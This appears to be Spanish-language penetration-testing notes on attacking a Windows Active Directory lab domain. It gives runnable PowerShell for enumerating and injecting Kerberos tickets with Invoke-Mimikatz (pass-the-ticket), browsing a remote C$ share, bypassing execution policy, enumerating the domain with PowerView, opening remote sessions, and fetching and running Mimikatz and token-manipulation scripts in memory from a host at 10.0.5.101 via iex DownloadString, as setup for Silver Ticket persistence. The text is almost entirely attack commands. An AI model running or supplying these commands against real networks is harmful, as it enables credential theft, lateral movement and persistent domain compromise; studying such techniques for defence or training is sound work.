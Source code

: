 **Enumeramos los tickets de Kerberos**
```powershell
ls | select name
```

**Realizamos ataque PTT**
```powershell
Invoke-Mimikatz -Command ‘"kerberos::ptt [0;2c1c7]-2-0-40e10000-maintainer@krbtgt-RESEARCH.SECURITY.LOCAL.kirbi"’
```

**Mostar el ticket inyectado en la sesion**
```powershell
klist
```

**Mostar contenido via smb desde la propia PSSesion**
```powershell
ls \\prod.research.SECURITY.local\c$
```
### PERSISTENCE
#### [[SILVER TICKET]]
**Importar Modulo Powerview | Nombre y SID de dominio | FQDN del DC**
```powershell
# Permisos bypass powershell
powershell -ep bypass

# Importamos el moudulo
. .\PowerView.ps1

# Obtener el nombre de dominio y el FQDN del DC
Get-Domain

# Obtener SID de nuestro dominio
Get-DomainSID
```

**Comprobar los permisos de administración del usuario actual en otros dominios**
```powershell
Find-LocalAdminAccess
```

**Abrir una Powershell Session en el sistema remoto al cual tenemos acceso como Admin**
```powershell
# Abrir sesion
EnterPSSession seclogs.research.SECURITY.local

# Analizar permisos (debemos de tener todos los permisos)
whoami
whoami /priv
```

**Pasamos herramientas Mimikatz/TokenManipulation de un sistema a otro mediante un servidor de subida de archivos**
```powershell
cd \
iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-Mimikatz.ps1')
iex (New-Object Net.WebClient).DownloadString('http://10.0.5.101/Invoke-TokenManipulation.ps1')
```
